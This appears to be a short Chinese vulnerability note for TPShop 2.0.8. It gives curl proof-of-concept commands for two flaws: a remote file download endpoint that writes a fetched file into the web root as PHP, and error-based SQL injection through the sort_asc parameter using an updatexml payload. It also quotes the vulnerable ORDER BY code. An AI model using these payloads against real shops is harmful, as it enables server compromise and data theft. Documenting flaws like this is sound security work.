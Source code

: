## tpshop v2.0.8 

### 远程文件下载

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/test/dlfile' -d 'file_url=http://127.0.0.1/robots.txt&save_to=/var/www/html/robots.php'
curl 127.0.0.1/robots.php
```

### 报错注入

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/Goods/goodsList/id/1/sort/shop_price/sort_asc/,(updatexml(2,concat(0x7e,(version())),0))'
```

关键代码

```
# 获取参数
$sort_asc = I('get.sort_asc','asc');

...

# 注入
$goods_list = M('goods')->where(['is_on_sale' => 1, 'goods_id' => ['in', implode(',', $filter_goods_id)]])->order("$sort $sort_asc")->limit($page->firstRow . ',' . $page->listRows)->select();
```
